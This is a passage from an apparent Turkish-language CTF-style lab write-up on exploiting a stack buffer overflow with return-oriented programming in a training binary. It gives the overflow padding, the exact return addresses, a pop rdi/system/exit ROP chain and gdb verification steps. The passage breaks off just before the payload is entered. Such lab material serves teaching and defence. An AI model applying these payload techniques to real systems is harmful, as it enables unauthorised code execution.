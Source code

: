 ```bash
# ❌ Komut çalıştırmaz
# ✅ Programı düzgün sonlandırır
```

#### 3.4. Exploit Stratejisi - Detaylı Açıklama
```bash
# STRATEJİ 1: Basit ROP Chain (ÖNERİLEN - Kolay)
# 1. ADIM: Buffer overflow (72 bytes)
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# 2. ADIM: Return address'i execute_whoami ile değiştir
# \x20\x12\x40\x00\x00\x00\x00\x00
# 3. ADIM: execute_whoami otomatik olarak system("whoami") çağırır

# NEDEN BU STRATEJİ DAHA İYİ:
# ✅ Sadece 2 adım: Buffer overflow + Return address değiştirme
# ✅ execute_whoami zaten system("whoami") çağırıyor
# ✅ execute_whoami zaten exit(0) yapıyor
# ✅ Ekstra gadget gerekmez
# ✅ Daha az hata yapma riski

# STRATEJİ 2: Gelişmiş ROP Chain (Alternatif - Zor)
# 1. ADIM: Buffer overflow (72 bytes)
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# 2. ADIM: pop rdi; ret gadget (0x401383)
# \x83\x13\x40\x00\x00\x00\x00\x00
# 3. ADIM: "whoami" string adresi (0x402102)
# \x02\x21\x40\x00\x00\x00\x00\x00
# 4. ADIM: system@plt adresi (0x401030)
# \x30\x10\x40\x00\x00\x00\x00\x00
# 5. ADIM: exit@plt adresi (0x401060)
# \x60\x10\x40\x00\x00\x00\x00\x00

# NEDEN BU STRATEJİ DAHA ZOR:
# ❌ 5 adım gerekiyor
# ❌ String adresini bulmak gerekiyor
# ❌ PLT adreslerini bulmak gerekiyor
# ❌ Daha fazla hata yapma riski
# ❌ Daha karmaşık

# HANGİ STRATEJİYİ SEÇMELİYİM?
# Eğer sadece whoami komutunu çalıştırmak istiyorsan: STRATEJİ 1
# Eğer ROP chain öğrenmek istiyorsan: STRATEJİ 2
# Eğer gerçek dünyada farklı komutlar çalıştırmak istiyorsan: STRATEJİ 2
```

#### 3.5. Zafiyet Doğrulama - Adım Adım Test
```bash
# 1. ADIM: execute_whoami'de breakpoint koy
(gdb) break execute_whoami
# ÇIKTI: Breakpoint 1 at 0x401220
# YORUM: ✅ Breakpoint başarıyla koyuldu

# 2. ADIM: Programı çalıştır
(gdb) run
# ÇIKTI: 
# === CyberLabs ROP Vulnerability Laboratory ===
# Modul: Return-Oriented Programming Exploitation
# Seviye: Ileri
# ROP Vulnerability Lab - Buffer Overflow
# =======================================
# Giris yapin: 
# YORUM: ✅ Program çalışıyor, payload bekliyor

# 3. ADIM: Payload'ı gir
```